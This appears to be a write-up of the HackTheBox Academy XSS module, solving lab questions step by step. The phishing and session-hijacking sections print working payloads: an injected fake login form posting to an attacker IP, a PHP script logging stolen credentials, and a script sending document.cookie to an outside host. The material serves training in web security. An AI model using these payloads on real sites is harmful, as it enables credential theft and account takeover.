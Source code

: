 ```yaml
---
title: "[HTB_Academy] Cross-Site Scripting (XSS)"
excerpt: "**Cross-Site Scripting (XSS)** Module Walkthrough - HackTheBox Academy"
header:
  overlay_image: /assets/images/HTB_Cross-Site_Scripting_(XSS)/banner.png
  teaser: /assets/images/HTB_Cross-Site_Scripting_(XSS)/upper.png
  og_image: /assets/images/HTB_Cross-Site_Scripting_(XSS)/upper.png
categories:
  - HTB-Academy
tags:
  - HTB-Academy
  - Bug Bounty Hunter
  - Penetration Tester
  - Web
  - OWASP TOP 10
layout: single
toc: true
---
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\upper.png)

## Disclaimer
<img style="float: left; padding-right:10px" src="\assets\images\disclaimer.png" width="110" height="110">

<div style="text-align: justify">The following post may contain spoilers. Use it as a guide or support. It is always better to try it by yourself!</div>
<div style="text-align: justify">Enjoy :)</div>

## Resources
<img style="float: left; padding-right:10px" src="\assets\images\github.avif" width="110" height="110">
<div style="text-align: justify">All resources can be found in the following GitHub repository:</div>
[R4fik1-HTB_Cross-Site_Scripting_Repository](https://github.com/r4fik1/HTB_Academy/tree/main/HTB_Cross-Site_Scripting)

## Module Summary

Web Application Penetration Testing is a vital part of any penetration test. It plays an essential role in identifying critical vulnerabilities that may lead to the organization's assets being compromised. Cross-Site Scripting (XSS) vulnerabilities are among the most common vulnerabilities in any web application, with studies indicating that over 80% of all web applications are vulnerable to it. An XSS vulnerability may allow an attacker to execute arbitrary JavaScript code within the target's browser, leading to various types of attacks, including compromising web admins and their web applications.

While many organizations choose to ignore XSS vulnerabilities, as it only affects end-users without having a direct ability to execute code on the back-end server, in this module, we will discuss why XSS should be taken seriously. We will discuss the three types of XSS vulnerabilities, how to identify them, and how to exploit them.

In addition to this, the Cross-Site Scripting (XSS) module will teach you the following:

  - What is an XSS vulnerability?
  - History of XSS attacks in real-life
  - What are Stored XSS, Reflected XSS, and DOM-based XSS vulnerabilities
  - Techniques to identify XSS vulnerabilities
  - Performing Defacing attacks to change the look of a website
  - Performing Phishing attacks to steal the victim's login details and to perform a phishing simulation exercise
  - Performing Session Hijacking attacks to obtain the victim's session cookie and use them to access their account
  - Front-end and Back-end steps to prevent XSS vulnerabilities and protect your web application against them
  

## Stored XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">1. Access the target. There is a box that asks for a ticket. Write the following script and press enter.</div>
```javascript
<script>alert(document.cookie)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q1\1.png)



<div style="text-align: justify">2. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q1\2.png)



## Reflected XSS

>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">3. Enter the following script in the box and press the "Add" button.</div>
```javascript
<script>alert(document.cookie)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q2\1.png)

<div style="text-align: justify">4. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q2\2.png)



## DOM XSS
 
>**Q. To get the flag, use the same payload we used above, but change its JavaScript code to show the cookie instead of showing the url.**


<div style="text-align: justify">5. Enter the following script in the box and press the "Add" button.</div>
```javascript
<img src="" onerror=alert(document.cookie)>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q3\1.png)



<div style="text-align: justify">6. You get the banner in a pop-up.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q3\2.png)



## XSS Discovery

>**Q. Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter? **

<div style="text-align: justify">7. Access the url which is a registration form. Fill all fields with test text. Open the developer tools of the web browser and check the status of the request response.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\0.png)



<div style="text-align: justify">8. Using the python tool "xsstrike" the vulnerable parameter is obtained.</div>
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\1.png)

>**Q. What type of XSS was found on the above server? "name only"**


<div style="text-align: justify">9. Using the python tool "xsstrike" gets the XSS type.</div>
```bash
python xsstrike.py -u "http://94.237.62.6:55605/?fullname=a&username=a&password=a&email=a%40a.aa" 
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q4\2.png)


## Phishing

>**Q. Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.**


<div style="text-align: justify">10. Access the target by pointing to "/phishing". Contains a box where to paste the URL of an image.</div>
```bash
http://10.129.252.57/phishing/
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\1.png)


<div style="text-align: justify">11. Try entering the following URL: www.hackthebox.eu/images/logo-htb.svg. The image is loaded.</div>
```bash
http://10.129.252.57/phishing/index.php?url=httos%3A%2F%2Fwww.hackthebox.eu%2Fimages%2Flogo-htb.svg
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\2.png)


<div style="text-align: justify">12. Find your own IP with ifconfig to create open a listener.</div>
```bash
ifconfig
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\3.png)


<div style="text-align: justify">13. As url parameter value in the URL use the following script. It is verified that it is vulnerable to XSS.</div>
```bash
http://10.129.252.57/phishing/index.php?url=<script>alert(window.origin)</script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\4.png)


<div style="text-align: justify">14. Through "document.write" load a login form to falsify the web. The "Image URL" box should be removed.</div>
```bash
http://10.129.252.57/phishing/index.php?url='/><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.46:3333><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');</script><!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\5.png)


<div style="text-align: justify">15. With the following parameter "document.getElementById('urlform').remove()" the "Image URL" box is removed.</div>
```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\6.png)


<div style="text-align: justify">16. Create a PHP listener on port 3333.</div>
```bash
mkdir /tmp/server
cd /tmp/server
nano index.php
```



```bash
sudo php -S 0.0.0.0:3333
```

```bash
cat creds.txt
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\7.png)


<div style="text-align: justify">17. We use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections</div>
```bash
cat index.php
```

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\8.png)

<div style="text-align: justify">18. Access the following URL created earlier to send the phishing to the user.</div>
```bash
http://10.129.252.57/phishing/send.php
```
```bash
http://10.129.252.57/phishing/index.php?url=%27/%3E%3Cscript%3Edocument.write(%27%3Ch3%3EPlease%20login%20to%20continue%3C/h3%3E%3Cform%20action=http://10.10.14.46:3333%3E%3Cinput%20type=%22username%22%20name=%22username%22%20placeholder=%22Username%22%3E%3Cinput%20type=%22password%22%20name=%22password%22%20placeholder=%22Password%22%3E%3Cinput%20type=%22submit%22%20name=%22submit%22%20value=%22Login%22%3E%3C/form%3E%27);document.getElementById(%27urlform%27).remove();%3C/script%3E%3C!--
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\9.png)


<div style="text-align: justify">19. The listener captures the username and password.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\10.png)


<div style="text-align: justify">20. Access the login and enter the previously stolen credentials.</div>
```bash
http://10.129.252.57/phishing/login.php
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\11.png)


<div style="text-align: justify">21. Get the flag.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q5\12.png)



## Session Hijacking

>**Q. Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.**


<div style="text-align: justify">22. Access the target. It is a registration form.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\1.png)



<div style="text-align: justify">23. Find if the record is vulnerable with the following scripts in the fields.</div>
```javascript
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
"><script src=http://10.10.14.46:3333/></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\2.png)


<div style="text-align: justify">24. Open a listener. It is verified that a vulnerable field exists.</div>
```bash
sudo php -S 0.0.0.0:3333
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\3.png)


<div style="text-align: justify">25. Search for the vulnerable field by entering a name for each script. Tip: We will notice that the email must match an email format, even if we try manipulating the HTTP request parameters, as it seems to be validated on both the front-end and the back-end. Hence, the email field is not vulnerable, and we can skip testing it. Likewise, we may skip the password field, as passwords are usually hashed and not usually shown in cleartext. This helps us in reducing the number of potentially vulnerable input fields we need to test.
Look for the position.</div>
```javascript
"><script src=http://10.10.14.46:3333/fullname></script>
"><script src=http://10.10.14.46:3333/username></script>
"><script src=http://10.10.14.46:3333/password></script>
"><script src=http://10.10.14.46:3333/url></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\4.png)


<div style="text-align: justify">26. The vulnerable field is "url".</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\5.png)


<div style="text-align: justify">27. Create the following script to steal the cookie.</div>
```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\6.png)

<div style="text-align: justify">28. Write that script in the url field to access it from the listener.</div>
```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\7.png)

<div style="text-align: justify">29. The cookie is captured.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\8.png)

<div style="text-align: justify">30.  Access "login.php". Click on "+" to add the cookie and add the cookie.</div>
```bash
http://10.129.134.2/hijacking/login.php
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\9.png)

<div style="text-align: justify">31. The flag is obtained.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q6\10.png)

## Skills Assessment

>**Q. What is the value of the 'flag' cookie?**


<div style="text-align: justify">32. Access the target and click on "Welcome to Security Blog".</div>
```bash
http://10.129.13.2/assessment
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\1.png)


<div style="text-align: justify">33. Write the scripts in all the fields always putting a name to detect the vulnerable field.</div>
```javascript
"><script src=http://10.10.14.46:3333/coment></script>
"><script src=http://10.10.14.46:3333/name></script>
"><script src=http://10.10.14.46:3333/url></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\2.png)

<div style="text-align: justify">34. Open a listener. The vulnerable field is "url".</div>
```bash
sudo php -S 0.0.0.0:3333
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\3.png)

<div style="text-align: justify">35. Create the following script to steal the cookie.</div>
```bash
nano script.js
```
```bash
new Image().src='http://10.10.14.46/index.php?c='+document.cookie;
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\4.png)

<div style="text-align: justify">36. Write that script in the url field to access it from the listener.</div>
```javascript
<script src=http://10.10.14.46:3333/script.js></script>
```
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\5.png)

<div style="text-align: justify">37. In the listener the flag inside the cookie is obtained.</div><br>
![image-center](\assets\images\HTB_Cross-Site_Scripting_(XSS)\Q7\6.png)